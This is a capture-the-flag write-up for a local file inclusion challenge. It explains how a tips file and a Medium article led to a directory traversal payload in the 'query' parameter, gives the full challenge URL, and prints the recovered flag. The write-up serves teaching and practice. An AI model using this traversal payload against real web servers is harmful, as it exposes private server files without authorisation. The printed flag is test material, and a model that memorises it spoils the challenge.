 # LeFI Gimang

>LeFi is an attack technique in which attackers trick a web application into either running or exposing files on a web server.

## The challenge

Given instance that contains a link to a website. This is what the homepage looks like.

![](images/Pasted%20image.png)

## How to solve

There are few articles that can be explored. Let's try it one by one.

Aside from all available articles, `tips.txt` might be something that I can look up. 

![](images/Pasted%20image%20(3).png)

```
Result for: tips.txt

Pro tip: Searching with full paths might reveal something interesting...
```

The `tips.txt` is providing a useful tips. So I searched the browser with keywords such as 'lfi' and 'full path exploit' and found an interesting [article on Medium by Aptive](https://medium.com/@Aptive/local-file-inclusion-lfi-web-application-penetration-testing-cc9dc8dd3601). 

The one that I want to highlight is how I can do directory traversal on the url. And since the web server includes the files by showing the 'query=tips.txt'. So, in other ways I can do traversal until it redirects to the flag. The payload that I use is

```
?query=../../../../../../../../flag.txt
```

And the full payload will be

```
http://d3108353-8f90-459f-a4af-d01683c0b28d.chall.intersec.hcs-team.com/?query=../../../../../../../../flag.txt
```

Let's apply the payload.

![](images/Pasted%20image%20(2).png)

It reveals the flag.

## The flag
```
HCS{LFI_buT_n0w_y0u_us1n9_tr4v3r5AL_27e92b2b-99ec-4b1c-b3fe-b06123a522db}
```